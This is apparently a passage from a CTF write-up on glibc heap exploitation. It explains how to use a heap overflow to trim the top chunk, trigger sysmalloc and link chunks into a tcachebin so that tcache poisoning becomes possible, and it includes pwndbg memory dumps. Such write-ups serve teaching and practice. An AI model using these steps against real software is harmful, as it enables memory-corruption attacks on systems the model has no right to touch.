 Before requesting for the `0x2b0` sized chunk, we first have to get the `0xd30` size chunk (the one we used to leak FD) from the unsortedbin. Failing to do so would result in `sysmalloc` not being called as `0x2b0` would simply be _remaindered_ from the `0xd30` unsortedbin chunk.

Let's recap what we have to do:

1. Use heap overflow bug to restore `0xd31` size field that we overwrite to leak the FD pointer.
2. Request for a `0xd30` sized chunk.
3. Trim top chunk size to `0x2b1` by overflowing from the `0xd50` sized allocation (it's right above the top chunk).
3. Request for a `0x2b0` sized chunk to trigger `sysmalloc` and link free space into the `0x290` tcachebin

```
pwndbg> tcachebins
tcachebins
0x290 [  1]: 0x55b8a6635d60 ◂— 0x0

pwndbg> top_chunk
Top chunk
Addr: 0x55b8a66572b0
Size: 0x21d51
```

After performing the above steps, we should have managed to link a chunk into the `0x290` tcachebin as expected. Now we've just got to link another chunk into the `0x290` tcachebin. However, this time we aren't as fortunate as the top chunk size after trimming would be `0xd50`. How do we remedy this? Simple. Just shrink the amount of free space available by requesting a chunk. To ensure that we manage to link `0x290` tcachebin, we need to request a chunk of size `0xd50 - (0x290 + 0x10 + 0x10) = 0xaa0`.

So in summary:

1. Request for a `0xaa0` sized chunk, top chunk size should then be `0x212b1`.
2. Trim top chunk size to `0x2b1` by overflowing from chunk requested in step 1.
3. Request for a `0x2b0` sized chunk to trigger `sysmalloc` and link free space into `0x290` tcachebin

```
pwndbg> tcachebins
tcachebins
0x290 [  2]: 0x56363f628d60 —▸ 0x56363f606d60 ◂— 0x0
```

Awesome! As seen above, we've managed to set things up so that we can perform Tcache Poisoining.

```
pwndbg> vis 2 0x56363f6282c0-0x10

0x56363f6282b0  0x0000000000000000      0x0000000000000aa1      ................
0x56363f6282c0  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x56363f6282d0  0x6161616661616165      0x6161616861616167      eaaafaaagaaahaaa
0x56363f6282e0  0x6161616a61616169      0x6161616c6161616b      iaaajaaakaaalaaa
0x56363f6282f0  0x6161616e6161616d      0x616161706161616f      maaanaaaoaaapaaa

---------------------------------TRUNCATED--------------------------------------

0x56363f628d30  0x6175616261746162      0x6177616261766162      batabauabavabawa
0x56363f628d40  0x6179616261786162      0x61626262617a6162      baxabayabazabbba
0x56363f628d50  0x6164626261636262      0x0000000000000291      bbcabbda........
0x56363f628d60  0x000056363f606d60      0x000056363f5e5010      `m`?6V...P^?6V..      <-- tcachebins[0x290][0/2]
```
